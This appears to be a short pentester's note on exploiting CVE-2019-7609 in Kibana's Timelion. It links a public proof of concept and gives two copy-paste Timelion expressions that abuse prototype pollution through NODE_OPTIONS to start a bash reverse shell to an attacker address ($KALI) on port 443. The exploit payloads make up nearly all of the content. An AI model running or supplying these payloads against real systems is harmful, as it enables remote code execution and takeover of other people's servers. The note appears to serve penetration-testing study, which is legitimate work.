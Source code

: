 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/mpgn/CVE-2019-7609

![[rlwrap]]

Left side menu > Timelion > Try one of the following 2 exploits:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/$KALI/443 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$KALI/443 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
